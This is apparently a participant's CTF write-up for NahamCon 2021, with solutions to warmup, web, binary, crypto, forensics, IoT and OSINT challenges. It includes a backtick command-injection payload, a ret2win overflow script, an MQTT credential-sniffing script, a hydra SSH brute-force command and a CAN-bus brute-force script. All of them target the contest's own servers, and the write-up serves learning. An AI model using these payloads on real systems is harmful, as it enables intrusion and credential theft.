

# **NahamCon CTF 2021**

<p align="center">
  

This is my writeup for the challenges i solved in NahamCon 2021 CTF. I achieved 65/6491 players


***
# Table of Contents

- [**NahamCon CTF 2021**](#nahamcon-ctf-2021)
- [Table of Contents](#table-of-contents)
- [Warmup](#warmup)
  - [Veebee](#veebee)
  - [Read The Rules](#read-the-rules)
  - [Chicken Wings](#chicken-wings)
  - [Car Keys](#car-keys)
  - [Buzz](#buzz)
  - [Pollex](#pollex)
  - [Shoelaces](#shoelaces)
  - [esab64](#esab64)
  - [Eighth Circle](#eighth-circle)
- [Web](#web)
  - [Homeward Bound](#homeward-bound)
  - [$Echo](#echo)
- [Binary Exploitation](#binary-exploitation)
  - [Ret2basic](#ret2basic)
- [Cryptography](#cryptography)
  - [Treasure](#treasure)
  - [Dice Roll](#dice-roll)
- [Forensics](#forensics)
  - [Parseltongue](#parseltongue)
  - [Henpeck](#henpeck)
- [Mobile](#mobile)
  - [Andra](#andra)
  - [Resourceful](#resourceful)
  - [Microscopium](#microscopium)
- [Miscellaneous](#miscellaneous)
  - [Abyss](#abyss)
- [IOT](#iot)
  - [IoT itchy](#iot-itchy)
  - [IoT Itchy & Scratchy SecureIoT Co](#iot-itchy--scratchy-secureiot-co)
- [Sponsors Recon](#sponsors-recon)
  - [hackerone](#hackerone)
  - [Google Play](#google-play)
- [Mission](#mission)
  - [The Mission](#the-mission)
  - [Bionic](#bionic)
  - [Meet the Team](#meet-the-team)
  - [Path 1: Stage 1: Leo](#path-1-stage-1-leo)
  - [Path 2: Stage 1: Hercules](#path-2-stage-1-hercules)
  - [Path 3: Stage 1: Orion](#path-3-stage-1-orion)
  - [Path 4: Stage 1: Gus](#path-4-stage-1-gus)
  - [Path 5: Stage 1: Lyra](#path-5-stage-1-lyra)
  - [Path 5: Stage 2: Hydraulic](#path-5-stage-2-hydraulic)
  - [Path 5: Stage 3: Centaurus](#path-5-stage-3-centaurus)
  - [Path 5: Stage 4: Nascar](#path-5-stage-4-nascar)
***
# Warmup

## Veebee
Buzz buzz, can you find the honey?

[veebee.vbe](./assets/warmup/veebee.vbe)

**Solution:** Running [veebee.vbe](./assets/warmup/veebee.vbe) we get the flag


## Read The Rules
Please follow the rules for this CTF!

Connect here: https://ctf.nahamcon.com/rules

**flag{90bc54705794a62015369fd8e86e557b}**

**Solution:** The flag is commented in the source code of the rules pages


## Chicken Wings
I ordered chicken wings at the local restaurant, but uh... this really isn't what I was expecting...

[chicken_wings](./assets/warmup/chicken_wings)

**flag{e0791ce68f718188c0378b1c0a3bdc9e}**

**Solution:** Use an online wingdings decoder: [https://www.dcode.fr/wingdings-font](https://www.dcode.fr/wingdings-font) to decode the file to get the flag 

## Car Keys
We found this note on someone's key chain! It reads... `ygqa{6y980e0101e8qq361977eqe06508q3rt}`? There was another key that was engraved with the word `QWERTY`, too...

**flag{6f980c0101c8aa361977cac06508a3de}**

**Solution:** Using an online Keyed Caesar Cipher Tool phttps://www.boxentriq.com/code-breaking/keyed-caesar-cipher](https://www.boxentriq.com/code-breaking/keyed-caesar-cipher) to decode the flag


## Buzz
You know, that sound that bumblebees make?

[buzz](./assets/warmup/buzz)

**flag{b3a33db7ba04c4c9052ea06d9ff17869}**

**Solution:** Adding a .z and decompress the file, we get the flag

## Pollex
👍

[pollex](./assets/warmup/pollex)

**Solution:** Using CyberChef to detect its filetype shows that its an image


Changing the file extension to `.jpg` and putting it in Forensically (https://29a.ch/photo-forensics/#exif-meta-data) we can extract the metadata. The flag is in the thumbnail


## Shoelaces
Do you double-knot your shoelaces? You gotta keep'em tied!

[shoelace.jpg](./assets/warmup/shoelaces.jpg)

**flag{137288e960a3ae9b148e8a7db16a69b0}**

**Solution:** Running strings on shoelace.jpg shows the flag


## esab64
Was it a car or a cat I saw?

[esab64](assets/warmup/esab64)

**flag{fb5211b498afe87b1bd0db601117e16e}**

**Solution:** The string `mxWYntnZiVjMxEjY0kDOhZWZ4cjYxIGZwQmY2ATMxEzNlFjNl13X` when reversed returns `X31lNjFlNzExMTA2YmQwZGIxYjc4ZWZhODk0YjExMjViZntnYWxm`

when `X31lNjFlNzExMTA2YmQwZGIxYjc4ZWZhODk0YjExMjViZntnYWxm` is base64 decoded it returns `_}e61e711106bd0db1b78efa894b1125bf{galf`

when `_}e61e711106bd0db1b78efa894b1125bf{galf` is reversed we get the flag `flag{fb5211b498afe87b1bd0db601117e16e}_`

## Eighth Circle
Abandon all hope, ye who enter here...

[eighth_circle](assets/warmup/eighth_circle)

**flag{bf201f669b8c4adf8b91f09165ec8c5c}**

**Solution:** After some googling, i found that its the Malbolge esoteric programming so i ran the value in the file in [https://www.tutorialspoint.com/execute_malbolge_online.php](https://www.tutorialspoint.com/execute_malbolge_online.php) to get the flag

***
# Web

## Homeward Bound

I can't get anything out of this website... can you find anything interesting?

**Flag{26080a2216e95746ec3e932002b9baa4}**

**Solution:** Add a `X-Forwarded-For: 127.0.0.1` in the GET request



## $Echo

So I just made a hardcoded bot that basically tells you what you wanna hear. Now usually it's a $ for each thing you want it to say but I'll waive the fee for you if you beta test it for me.

**flag{1beadaf44586ea4aba2ea9a00c5b6d91}**

**Solution:** 
Testing common command injection payloads will fail. The only one which executed a command was using backticks (e.g.`` `ls` ``)


After gaining command execution, i decided to look for the flag and found it using `` `ls ../` ``


i also leaked the source code of the index.php site `` `cat index.php` ``


```php
<?php 
    $to_echo = $_REQUEST['echo']; 
    $cmd = "bash -c 'echo " . $to_echo . "'"; 
    if(isset($to_echo)) { 
        if($to_echo=="") { 
            print "Please don't be lame, I can't just say nothing."; 
        }elseif (preg_match('/[#!@%^&*()$_+=\-\[\]\';,{}|":>?~\\\\]/', $to_echo)) {
            print "Hey mate, you seem to be using some characters that makes me wanna throw it back in your face >:("; 
        }elseif ($to_echo=="cat") { 
            print "Meowwww... Well you asked for a cat didn't you? That's the best impression you're gonna get :/"; 
        } elseif (strlen($to_echo) > 15) { 
            print "Man that's a mouthful to echo, what even?"; 
        } else { 
            system($cmd); 
        } 
    }else { 
        print "Alright, what would you have me say?"; 
    } 
?>
```

Sending `` `<../flag.txt` `` returns the flag.


***
# Binary Exploitation

## Ret2basic

Can you ret2win?
Connect with: `nc challenge.nahamcon.com 30494`

[ret2basic](./assets/pwn/ret2basic)

**flag{d07f3219a8715e9339f31cfbe09d6502}**

**Solution:** 

Using Ghidra to decompile the binary we can see that it calls the vuln function


Decompiling vuln shows that it has a buffer of 112


In Ghidra, we also see that there is a win function that we have to call. Its address is 0x00401215


Running this script will output the flag

```python
from pwn import *

payload = "A"*(112+8) + "\x15\x12\x40\x00\x00\x00\x00\x00"

conn = remote('challenge.nahamcon.com', 30494)
conn.sendline(payload)
conn.interactive()
```


***
# Cryptography

## Treasure

This movie is what pushed me to get into hacking. Good luck decrypting my note, I'm elite.

[hackers.txt](./assets/crypto/hackers.txt)
[note.txt](./assets/crypto/note.txt)

**Flag{62D869C6B886DAC2DD743086E451F76B}**

**Solution:** Use an online book cipher decoder (https://www.dcode.fr/book-cipher)[https://www.dcode.fr/book-cipher] to decode note.txt to get the flag using hackers.txt as the key


## Dice Roll

When you have just one source of randomness, it's "a die", but when you can have muliple -- it's 'dice!'

NOTE: You are welcome to "brute force" this challenge if you feel you need to. ;)

[dice_roll.py](./assets/crypto/dice_roll.py)

Connect with: `nc challenge.nahamcon.com 31627`

**flag{1beadaf44586ea4aba2ea9a00c5b6d91}**

**Solution:** 
Following [https://github.com/pberba/ctf-solutions/tree/master/20180907_nox/plot_twist](https://github.com/pberba/ctf-solutions/tree/master/20180907_nox/plot_twist) 
I Used [MTRecover.py](https://github.com/eboda/mersenne-twister-recover/blob/master/MTRecover.py) and this script, we can get the flag
```python
from __future__ import print_function
from pwn import *
from MTRecover import MT19937Recover

r = remote('challenge.nahamcon.com', 31627)
r.recvuntil(b'>')

bits = []
for i in range(625):
	print(i)
	to_send = b'2\r\n'
	r.send(to_send)
	r.recvline(keepends = False)
	key = r.recvline(keepends = False)
	bits.append(int(key))
	r.recvuntil(b'>')

mtb = MT19937Recover()
rand = mtb.go(bits)
to_send = b'3\r\n'
r.send(to_send)
print('sent 3:' , r.recvline(keepends = False))
to_send = str(rand.getrandbits(32))
to_send = to_send + '\r\n'
print("to_send: ", to_send)
r.send(to_send)
print(r.recvline(keepends = False))
print(r.recvline(keepends = False))
```


***
# Forensics

## Parseltongue

Hisssss, can you ssssee ssssome sssssecretssss?

[parseltongue](./assets/forensics/parseltongue)

**Flag{eabd9a04bdd1ea626f2cfbb0ea5c5feb}**

**Solution:** 
Use this script to decompile the binary

```python
import uncompyle6

with open('parseltongue.py', 'w') as fileobj:
	uncompyle6.decompile_file("parseltongue.pyc", fileobj)
```

the output is 
```python
# uncompyle6 version 3.7.4
# Python bytecode 3.8 (3413)
# Decompiled from: Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
# [GCC 9.3.0]
# Embedded file name: ./parseltongue.py
# Compiled at: 2021-02-28 05:42:29
# Size of source mod 2**32: 1889 bytes
import Crypto.Util.number as l2b
import random
sszz = [
 'aposlogahs', 'apsle', 'Sine', 'aʃe', 'bei∫ed', 'tuif', 'Kura', 'Vera', 'pard', 'pardshesl', 'bo∫', 'Gara', 'vinth', 'Pelʃis', 'keilsing', 'khair', 'tikni', 'Bana', 'Slehara', 'koukh', 'kups', 'dai', 'Andi', 'dorʃe', 'doʃe', 'sloʃe', 'kaʃe', 'Sarna', 'Suu', 'giʃe', 'Gorna', 'ass-girou', 'dros', 'feslure', 'hasli', 'riʃan', 'fraeslis', 'vris', 'gatsi', 'runʃe', 'Tira', 'hishe', 'einʃe', 'hesleuf', 'Firna', 'Baʃ', 'ʃem', 'ai', 'ine', 'dinʃe', 'Negei', 'slanp', 'ʃena', 'sliʃe', 'dati', 'slifai', 'Kuine', 'Ha', 'nisl', 'ʃe', 'Sobne', 'bna', 'Sora', 'ovith', 'houk', 'parknent', 'fasar', 'nesha', 'praughs', 'Pura', 'ʃine', 'ʃane', 'gisan', 'rai∫e', 'kata', 'Ara', 'Nigi', 'akaʃe', 'rashe', 'slan', 'Derne', 'Tina', 'snart', 'gariʃe', 'kerashe', 'stabsle', 'Fasi', 'Peina', 'Tasi', 'Sekusi', 'Harne', 'kapi', 'Athne', 'vaʃe', 'asl', 'ʃik', 'agiro', 'vei', 'Asuna', 'Teʃ', 'Fiʃ', 'Doʃ', 'ʃira', 'Haʃ', 'Vuʃ', 'vindovth', 'Bira', 'Sa', 'Slu', 'ou', 'iangsteur']
zzss = b'\x07\x1c\x0e\x14\x17\n\x06\x03\x0cJ\x00@G\x0e\x017X\x0b\x04W\xf8\xb5\x03P\x06\x0f\x80\xea\x9b\x00\x05A\x16\\\x00.\x17\x0f'
s = False
z = True
ss = s & z
z = abs(ss) - abs(z)
zz = ss | z
z = zz - z - z
zz = z | z
z = zz << zz
s = ss >> ss
sz = s << z
zs = z << s
z = zs - sz
ss = str(z).replace(str(zs), str(ss).replace(str(ss), str(z).replace(str(z), '')))
sss = bytes(ss.join(sszz), 'utf-8')
zzz = bytes([_a ^ _b for _a, _b in zip(sss, zzss)])
print(zzz) # added to print the flag
ssszzz = bytes([_a ^ _b for _a, _b in zip(zzz, zzss)])
sss += b'S'
ssss = []
ss = sss[:len(sss) // 2]
zz = sss[len(sss) // 2:]
for s in range(len(ss)):
    ssss.append(ss[s] ^ zz[s])
else:
    if 5 == 1:
        print(' '.join([random.choice(sszz).upper() for _ in range(random.randrange(5, 10))]))
    else:
        print(' '.join([random.choice(sszz).upper() for _ in range(random.randrange(5, 10))]))
```
Adding a print(zzz), we can get the flag


## Henpeck

So I'll be honest, I never actually went through the Mavis Beacon program...

[henpeck.pcap](./assets/forensics/henpeck.pcap)

**flag{f7733e0093b7d281dd0a30fcf34a9634}**

**Solution:** Following [https://www.programmersought.com/article/52335860604/](https://www.programmersought.com/article/52335860604/) and [https://abawazeeer.medium.com/kaizen-ctf-2018-reverse-engineer-usb-keystrok-from-pcap-file-2412351679f4](https://abawazeeer.medium.com/kaizen-ctf-2018-reverse-engineer-usb-keystrok-from-pcap-file-2412351679f4) we can get the flag

***
# Mobile

## Andra

You know what to do. :)

[](./assets/mobile/andra.apk)

**flag{d9f72316dbe7ceab0db10bed1a738482}**

**Solution:**  


## Resourceful

I built my first ever android app with authentication!

[](./assets/mobile/resourceful.apk)

**flag{7eecc051f5cb3a40cd6bda40de6eeb32}**

**Solution:**  


## Microscopium

This cool app will keep your secrets!

[](./assets/mobile/microscopium.apk)

**flag{06754e57e02b0c505149cd1055ba5e0b}**

**Solution:**  


***
# Miscellaneous

## Abyss

A Vortex? No... an Abyss.

Connect with:
`# Password is userpass`
`ssh -p 31238 user@challenge.nahamcon.com`

**flag{db758a0cc25523993416c305ef15f9ad}**

**Solution:** 


***
# IOT

## IoT itchy

See if you have the patience to scratch the itch; patience is key. Mosquitto bites are so annoying!

Connect here: `34.70.255.20:1883` with `iot:iot`

**Flag{fh1nd1n9_R4nd0m_5uBt0P1c5_i5_fuN}**

**Solution:** 
Using the mqtt-cli [https://hivemq.github.io/mqtt-cli/docs/installation/packages.html](https://hivemq.github.io/mqtt-cli/docs/installation/packages.html)

we can run the mqtt-cli shell use `mqtt sh`
use `help` to get a list of possible commands
connect to the ip using mqtt> `con -h 34.70.255.20 -p 1883 -u iot -pw iot`
after connecting, we can run `sub -sJT -oc -t #` to subscribe to wildcard topic `#` and block the console and wait for publish messages `s` to print output to console `-oc` the topic name `T` in pretty JSON format `J`


## IoT Itchy & Scratchy SecureIoT Co

See if you have the patience to scratch the itch; patience is key. Mosquitto bites are so annoying! Except, in this case.. you can become an admin.

Connect here: `35.225.10.98:1883` with `iot:iot`
and here: http://35.225.10.98

**flag{La2y_aDm1N5_5H0uLD_N07_U53_IoT}**

**Solution:** 

Using this script, we can get the username, password and OTP

```python
import paho.mqtt.client as mqtt
import sys
import base64

def on_connect(client, userdata, flags, rc):
	print("[+] Connection successful")
	# client.subscribe('#', qos = 1)        # Subscribe to all topics
	# client.subscribe('$SYS/#')            # Broker Status (Mosquitto)
	client.subscribe('Office/SecureCo/#')            # Broker Status (Mosquitto)

def on_message(client, userdata, msg):
	print('[+] Topic: %s - Message: %s' % (msg.topic, msg.payload))
	if msg.topic == "Office/SecureCo/device/admin/login/u":
		print('username: ', base64.b64decode(msg.payload))
	if msg.topic == "Office/SecureCo/device/admin/login/p":
		print('password: ', base64.b64decode(msg.payload))
	if msg.topic == "Office/SecureCo/webcam/feed/part1":
		print('part1: ', msg.payload)
	if msg.topic == "Office/SecureCo/webcam/feed/part2":
		print('part2: ', msg.payload)

client = mqtt.Client(client_id = "MqttClient")
client.username_pw_set(username="iot", password="iot")
client.on_connect = on_connect
client.on_message = on_message
client.connect('35.225.10.98', 1883, 60)
client.loop_forever()
```
The username was `administrator` and the password was `SeCUReP@55W0rD1`

values returned in part 1 and part 2 were base64 encoded image of the OTP. After decoding and combining them we can get an image with an OTP


***
# Sponsors Recon

## hackerone
Thanks to [HackerOne](https://hackerone.com/) for helping sponsor NahamCon!

Perform some reconnaissance on their online presence and find a flag you can submit for points :)

**Flag{ee907d188039ae543b81fd237b6b6d0b}**

**Solution:** There is a string `Synt{rr907q188039nr543o81sq237o6o6q0o}` In the hackerone discord. After using ROT13, we can get the flag `Flag{ee907d188039ae543b81fd237b6b6d0b}` 


## Google Play
Thanks to [Google Play](https://play.google.com/) for helping sponsor NahamCon!

Perform some reconnaissance on their online presence and find a flag you can submit for points :)

**flag{a0a6cb3b4bc98bf2a34b7aed76aebf53}**

**Solution:** Going to https://www.google.com/about/appsecurity/play-rewards/ , there is a link to a [pdf](https://static.googleusercontent.com/media/www.google.com/en//about/appsecurity/play-rewards/Android_app_vulnerability_classes.pdf)

in the pdf, use CTRL F to find the string `flag{`


copy and pasting the hidden text reveals the flag


***
# Mission


## The Mission

Enter the flag you find on **The Mission** [https://ctf.nahamcon.com/mission](https://ctf.nahamcon.com/mission) page to open the gates and unlock challenges for The Mission.

**flag{48e117a1464c3202714dc9a350533a59}**

**Solution:** Find the flag in [https://ctf.nahamcon.com/mission](https://ctf.nahamcon.com/mission) source code


## Bionic

Thank you for taking on **The Mission**. You can begin by exploring the **CONSTELLATIONS** public website, [constellations.page](constellations.page).

CONSTELLATIONS has "tried" to reduce their attack surface by offering just a static website. But you might find some low-hanging fruit to get you started.

You should find the flag for this challenge ON THIS [constellations.page](constellations.page) website.

With the flag of this challenge, you should also find a new URL that will assist in the next challenge.

**flag{33b5240485dda77430d3de22996297a1}**

**Solution:**  Going to https://constellations.page/robots.txt returns the flag and a URL for the next challenge


## Meet the Team

Recover the list of employees working at CONSTELLATIONS.

With the flag of this challenge, you should find new information that will help with future challenges.

You should find the flag for this challenge ON THIS [constellations.page](constellations.page) website. You will not find it on GitHub.

HINT: "Can we please stop sharing our version control software out on our website?"

HINT AGAIN: you are looking for a publicly accessible version control software folder published on the [constellations.page](constellations.page) website itself

**flag{4063962f3a52f923ddb4411c139dd24c}**

**Solution:**  
Going to https://constellations.page/.git/ shows a Forbidden error thus the .git directory exists 

Following https://0day.work/bsidessf-ctf-2017-web-writeups/#theyear2000

Using gitdumper in https://github.com/internetwache/GitTools to dump information found in the .git directory `./gitdumper.sh https://constellations.page/.git/ gitdummped/`

view the commit history at /.git/logs/HEAD 
```
0000000000000000000000000000000000000000 1142cc3145fdba8d9eb8f9c9e7ee79bdfda64d9a Leo Rison <leo.rison@constellations.page> 1614124430 -0500	commit (initial): Added initial assets and landing page
1142cc3145fdba8d9eb8f9c9e7ee79bdfda64d9a 87b17a86409582c162e260795afdf104dc1d46b1 Leo Rison <leo.rison@constellations.page> 1614124968 -0500	commit: Added the Meet The Team page
87b17a86409582c162e260795afdf104dc1d46b1 8e9e7afad5d1f7c6c3dcf322a3a94aeebc1e0073 Leo Rison <leo.rison@constellations.page> 1614125173 -0500	commit: Management said I need to remove the team details so I redacted that page and added it to robots.txt
8e9e7afad5d1f7c6c3dcf322a3a94aeebc1e0073 87b17a86409582c162e260795afdf104dc1d46b1 Leo Rison <leo.rison@constellations.page> 1614125488 -0500	checkout: moving from master to 87b17a
87b17a86409582c162e260795afdf104dc1d46b1 0780dea9ede681b1e4276d74740bb11056d97c39 Leo Rison <leo.rison@constellations.page> 1614125881 -0500	commit: Management said I need to remove the team details so I redacted that page and added it to robots.txt
0780dea9ede681b1e4276d74740bb11056d97c39 87b17a86409582c162e260795afdf104dc1d46b1 Leo Rison <leo.rison@constellations.page> 1614125918 -0500	checkout: moving from 0780dea9ede681b1e4276d74740bb11056d97c39 to 87b17a86409582c162e260795afdf104dc1d46b1
87b17a86409582c162e260795afdf104dc1d46b1 1142cc3145fdba8d9eb8f9c9e7ee79bdfda64d9a Leo Rison <leo.rison@constellations.page> 1614125954 -0500	checkout: moving from 87b17a86409582c162e260795afdf104dc1d46b1 to 1142cc
1142cc3145fdba8d9eb8f9c9e7ee79bdfda64d9a 4c88ac1c56fe228267cf415c3ef87d7c3b8abd60 Leo Rison <leo.rison@constellations.page> 1614125972 -0500	commit: Added the Meet The Team page
4c88ac1c56fe228267cf415c3ef87d7c3b8abd60 e7d4663ac6b436f95684c8bfc428cef0d7731455 Leo Rison <leo.rison@constellations.page> 1614126014 -0500	commit: Management said I need to remove the team details so I redacted that page and added it to robots.txt
```

```bash
GitTools/Dumper/gitdummped$ git cat-file -t 4c88ac1c56fe228267cf415c3ef87d7c3b8abd60
commit

GitTools/Dumper/gitdummped$ git cat-file -p 4c88ac1c56fe228267cf415c3ef87d7c3b8abd60
tree a5d2bc0a3c1c2317d7406dbe08c04dc761bad63a
parent 1142cc3145fdba8d9eb8f9c9e7ee79bdfda64d9a
author Leo Rison <leo.rison@constellations.page> 1614125972 -0500
committer Leo Rison <leo.rison@constellations.page> 1614125972 -0500

Added the Meet The Team page

GitTools/Dumper/gitdummped$ git cat-file -p a5d2bc0a3c1c2317d7406dbe08c04dc761bad63a
040000 tree 71f61d1666dcbd3e8e63f9b1c2e3cd9a6465fe65	assets
100644 blob 7b74d5ec40c3014c2be272f1a9d1e1896f3f56a4	index.html
100644 blob 8257067778403187030c701b782e25a85390f899	meet-the-team.html

GitTools/Dumper/gitdummped$ git cat-file -p 8257067778403187030c701b782e25a85390f899
<html>
	<!-- Projects Section -->
	<section id="projects" class="projects-section bg-light">
		<div class="container">

			<ul>
				<li><h4><b>Orion Morra</b> &mdash; Support</h4></li>
				
				<li><h4><b>Lyra Patte</b> &mdash; Marketing</h4></li>
				
				<li><h4><b>Leo Rison</b> &mdash; Development</h4></li>
				
				<li><h4><b>Gemini Coley</b> &mdash; Operations</h4></li>

				<li><h4><b>Hercules Scoxland</b> &mdash; Sales</h4></li>

				<li><h4><b>Vela Leray</b> &mdash; Management</h4></li>

				<li><h4><b>Pavo Welly</b> &mdash; HR</h4></li>

				<li><h4><b>Gus Rodry</b> &mdash; Accounting</h4></li>

				<!-- <li><h4><b>flag{4063962f3a52f923ddb4411c139dd24c}</b></h4></li> -->

			</ul>
		</div>
	</section>

<html>
```

## Path 1: Stage 1: Leo

Use open-source intelligence to track down information on Leo.

**flag{636db5f4f0e36908a4f1a4edc5b0676e}**

**Solution:**  
Found Leo's Instagram account https://www.instagram.com/_leorison/

There's a post with a QR code https://www.instagram.com/p/CLzwjwxACXm/

Scanning the QR code we get the flag flag{636db5f4f0e36908a4f1a4edc5b0676e} and A password for Leo is `` `constelleorising` ``

## Path 2: Stage 1: Hercules

Use open-source intelligence to track down information on Hercules.

**flag{5bf9da15002d7ea53cb487f31781ce47}**

**Solution:**  In https://github.com/gusrodry/development, there is a user who starred the repo https://github.com/gusrodry/development/stargazers

Going to the user [https://github.com/HerculesScox], we can see that there is a repo called maintenance [https://github.com/HerculesScox/maintenance]  which has Maintenance scripts for CONSTELLATIONS

Under [connect.sh](https://github.com/HerculesScox/maintenance/blob/main/connect.sh) we can find the flag


## Path 3: Stage 1: Orion

Use open-source intelligence to track down information on Orion.

**Solution:**  
Found orion's twitter account https://twitter.com/OrionMorra by searching in twitter Orion Morra

In a post, https://twitter.com/OrionMorra/status/1363789936219082756 there is an image with the flag


## Path 4: Stage 1: Gus

Use open-source intelligence to track down information on Gus.

**flag{84d5cc7e162895fa0a5834f1efdd0b32}**

**Solution:**  At the bottom of https://constellations.page/meet-the-team.html there is an icon that links to the constellations github page https://github.com/constellations-git

constellations github shows has 1 member https://github.com/gusrodry

In https://github.com/gusrodry/development, there is a commit with the flag https://github.com/gusrodry/development/commit/7107e8987b7a87874880c03825dbf925af510434


## Path 5: Stage 1: Lyra

Use open-source intelligence to track down information on Lyra.

**flag{bd869e6193c27308d2fd3ad4b427e8c3}**

**Solution:**  
Find lyra's twitter account https://twitter.com/LyraPatte by searching in twitter Lyra Patte
In a post, https://twitter.com/LyraPatte/status/1369086826263240704?s=20 there is a link to https://constellations.page/constellations-documents/1/


incrementing the last value to https://constellations.page/constellations-documents/5/ , we find the flag flag{bd869e6193c27308d2fd3ad4b427e8c3} 


## Path 5: Stage 2: Hydraulic 

Use open-source intelligence to track down information on Leo.

**flag{cadbbfd75d2547700221f8c2588e026e}**

**Solution:**  Getting the values from https://constellations.page/constellations-documents/5/ to create a list of usernames [loginlist] and passwords [wordlist]

Using `sudo hydra -L loginlist -P wordlist challenge.nahamcon.com -s <port> -t 4 ssh` to brute force the username and password we get `pavo` as the username and `starsinthesky` as the password

After ssh into the server, we get the flag `flag{cadbbfd75d2547700221f8c2588e026e}`


## Path 5: Stage 3: Centaurus 

Constellation employees use this app to secure their passwords. Is it really secure?

[centaurus1.apk](assets/mission/centaurus1.apk)

**flag{4a8f943a965086945794066f7ce97f23}**

**Solution:**  

## Path 5: Stage 4: Nascar

CONSTELLATIONS employees rejoice, NASCAR has developed a cloud solution to control cars remotely! You are headed to a race and need to get up and running. Here are some logs that might help you get started.

[canbus.log](./assets/mission/canbus.log)

Connect with: `nc challenge.nahamcon.com 32055`

**flag{e056ee2f338a63d03a2e47aefebf178f}**

**Solution:**  
Connecting with nc we see that we need the CAN codes to Lock the car and set the speed display to 40mph


Following https://sarahnsec.medium.com/sans-holiday-hack-challenge-2020-can-bus-investigation-acfcb719e51e

i used `cat canbus.log | cut -d ' ' -f3 | cut -d# -f1 | sort | uniq` to get the list of unique CAN IDs which are `188`, `19B` and `244`

i used `cat canbus.log | grep 19B#` returned all values staring with 19B#


Connecting to the server and using the unique value `19B#00000F000000` as input allowed us to enter the next value


i used `cat canbus.log | grep 244# | uniq > 244_only.txt` to get unique values that start with 244#

Next i used this script to brute force for the correct value
```python
from pwn import *

list = '244_only.txt'

f = open(list, "r")
list_output = f.readlines()
for i in range(len(list_output)):
	print(i)
	r = remote('challenge.nahamcon.com', 32107)
	r.recvuntil(b'1:')
	r.send('19B#00000F000000\r\n')
	r.recvline(keepends = False)
	r.send(list_output[i])
	print(list_output[i])
	output = r.recvline(keepends = False)
	if not (b'Sorry!' in output):
		print(output)
		break
```


***

